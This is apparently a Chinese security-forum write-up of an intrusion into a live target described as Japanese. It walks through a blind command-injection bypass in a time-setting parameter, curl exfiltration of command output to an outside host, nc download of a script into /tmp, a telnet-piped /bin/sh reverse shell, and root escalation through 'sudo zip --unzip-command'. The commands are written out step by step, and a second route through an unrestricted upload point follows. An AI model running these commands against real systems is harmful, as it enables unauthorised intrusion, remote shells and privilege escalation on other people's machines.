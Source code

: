 

# 奇安信攻防社区 -【Web 实战】一次有趣的 RCEbypass

### 【Web 实战】一次有趣的 RCEbypass

在对某樱花国渗透的时候发现一个 RCE，经过多次测试后成功绕过限制拿到 shell

在跟朋友一起渗透的时候发现个 RCE

无回显，使用 curl 进行测试

![image.png](assets/1700442691-219a9651be10ecb7d379ab92ab39a12e.png)  
大哥服务器上有个接受参数回显的脚本，启动并监听

![image.png](assets/1700442691-7f33b3c4bb530d6ecfd9c1d67b78cf4f.png)  
成功接收到该回显

time=`curl x.x.x.x -d "c=$(id)"`

![image.png](assets/1700442691-255f493d267a78ffe641862f3a923b9b.png)  
尝试写入测试，失败

![image.png](assets/1700442691-0ac16d9a6107dcfe8bbd2490c6b0d523.png)

![image.png](assets/1700442691-1a8fa9e8a4b68d75b8dcaa1cd90f15be.png)  
尝试远程下载 wget，powershell 上线等方式，均失败

使用 cat 读取代码

![image.png](assets/1700442691-19d611af553dcdb4e7e8d4a818f4f296.png)

![image.png](assets/1700442691-4cda3e5d6644a9befebc957bb063db4f.png)  
简单说下代码，接受 post 的 time 参数，将 T 替换成空格，将/替换成-，然后把过滤过的参数放进 SystemSetting\_setLocalTime 函数当中

跟进函数，接收参数后拼接到$cmd\_date\_set 中

![image.png](assets/1700442691-d3853ff89834c29518dec4c4f950e937.png)  
然后在 48 行中过滤掉|，然后拼接到 exec 中进行命令执行，其中 | 符号用不了，可以使用反引号来代替拼接

所以我们现在知道了屏蔽了 / | \\ 三个符号

梳理下思路，一般利用方式因为 /的原因，所以用不了 http 协议，无法尝试远程下载等方式，没有权限进行写入文件，那么现在几种方式进行 bypass，第一种，替换/|\\符号，比如常见的空格符$IFS 替换，第二种，进行提权写入文件，第三种，想办法再挖一个其他漏洞进行组合利用，第四种，尝试在其他目录写文件执行

那么先查看有哪些命令可用

使用 compgen -c 没有回显，echo $PATH 只返回个 H，最后使用 busybox 进行输出测试

![image.png](assets/1700442691-90e5b768fed846437df6c35ed72799d9.png)  
常用的思路到这卡住了，尝试使用进行读取某一个字符并输出到当前目录，但发现该方法也无效，没有生成成功 output.txt

dd if=1 bs=1 skip=9 count=1 status=none of=output.txt

![image.png](assets/1700442691-faba9ff597b33bc1837ef4b933026079.png)  
继续想办法，虽然限制了/不能进行 cd ../..等，但是正常的cd ..是可以使用的

使用命令 cd ..; cd ..; cd ..; cd ..; cd tmp; nc x.x.x.x 81 > 1.sh

发现是可以成功的

![image.png](assets/1700442691-608f09539648db182e301a71b07db256.png)  
经过测试，成功步骤如下

以下简称服务端，其中被控端为目标设备

1 服务端启用 nc 监听，并在被控端中写入命令

被控端：cd ..; cd ..; cd ..; cd ..; cd tmp; nc x.x.x.x 81 > 1.sh

服务端：sudo nc -lvvnp 85

2 服务端写命令

telnet x.x.x.x 82 | /bin/sh | telnet x.x.x.x 83

![image.png](assets/1700442691-610a2cab996a08d288e7fb510a5ccdc0.png)  
回车后打开 burp

3 被控端写命令

![image.png](assets/1700442691-4e18423f731380b46308d47951d2968c.png)  
time=`curl x.x.x.x -d "c=$(cd ..; cd ..; cd ..; cd ..; cd tmp; nc  x.x.x.x 85 > 1.sh)"`

4 发包，发现成功写入 1.sh

![image.png](assets/1700442691-1b3b4fa860c178df91d972e80b3d6fdf.png)  
5 监听 82,83 端口

![image.png](assets/1700442691-50b7024a62d12509e359220d91757a5c.png)  
并发包

time=`cd ..; cd ..; cd ..; cd ..; cd tmp;sh 1.sh`

![image.png](assets/1700442691-bd850e52debff2c4f2d7a11b0e4a37c1.png)  
6 至此成功拿到 shell

![image.png](assets/1700442691-80a46b6cd0e48764d6fa9d35303de8ab.png)  
7 进行提权

其中/etc/sudoers 设置了 nobody 可以使用 sudo 不需要输入密码的命令

![image.png](assets/1700442691-d064e3ad919bea96e98faff3371528b4.png)  
又因为/usr/bin/zip 有一个参数--unzip-command 可以执行命令

所以使用以下命令就可以直接进行提权

sudo /usr/bin/zip 1aca.zip /etc/passwd -T --unzip-command="sh -c /bin/sh"

![image.png](assets/1700442691-d155367c2cd045a4e347e2e12a099394.png)  
拿到 root 权限

第二种方法，根据文件代码，发现一个上传点如下

![image.png](assets/1700442691-4d3a5993502bdd3e91e547d3c3bed7b7.png)  
其中路径为/svr/www，没有到网站目录/www/，那么利用方法就是上传一个文件，在使用 rce 进行执行拿到 shell，在 34 行有个简单的判断是否为 zip 格式文件，但是并没有限制后缀名等条件

简单写个 poc

![image.png](assets/1700442691-fa41bab9e392bf8beda14e469ffd0e22.png)  
其中写入的内容如下

sudo /usr/bin/zip 1aca.zip /etc/syslog.conf -T --unzip-command="sh -c 'id > /tmp/test.txt'"

![image.png](assets/1700442691-7a1dae99586d720c42f22170173bb45f.png)  
上传成功后跟之前的利用思路一样，跨目录进行读取

![image.png](assets/1700442691-e1690342885446f9b5da05f0d8056c46.png)

![image.png](assets/1700442691-89ed6ab39054db70b4fb75635c74522c.png)

![image.png](assets/1700442691-5a513080c03fac2ea92f4ee626201d33.png)  
圆满成功！感谢@昭通早行网络科技有限公司的各位师傅不吝赐教！！！

文章有错误请联系我

微信 zacaq999
